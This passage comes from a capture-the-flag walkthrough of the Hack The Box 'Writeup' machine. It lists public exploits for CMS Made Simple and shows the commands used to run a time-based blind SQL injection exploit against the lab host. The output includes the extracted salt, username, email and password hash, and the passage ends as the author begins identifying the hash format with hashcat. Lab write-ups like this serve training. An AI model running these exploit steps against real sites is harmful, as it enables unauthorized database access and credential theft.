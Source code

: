 ```bash
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                                                               | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                                                                          | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                                                                          | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                        | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                               | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                                                                                                       | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                                                                                                  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload                                                                                         | php/webapps/46546.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

A few of the exploits are authenticated. One is an RCE, but reading the code shows it requires a fresh install. The next best option is the SQL injection.

The exploit, at `php/webapps/46635.py`, seems to do a blind injection via a time based attack. I'll clone it and run it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ searchsploit -m php/webapps/46635.py
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ python2 -m pip install termcolor
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ python2 46635.py -u http://writeup.htb/writeup/
```

It finds us a password hash and salt within a minute!

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

I'll try to find the hash format:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ hashcat --example-hashes | grep simple
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ hashcat --example-hashes | grep cms
```
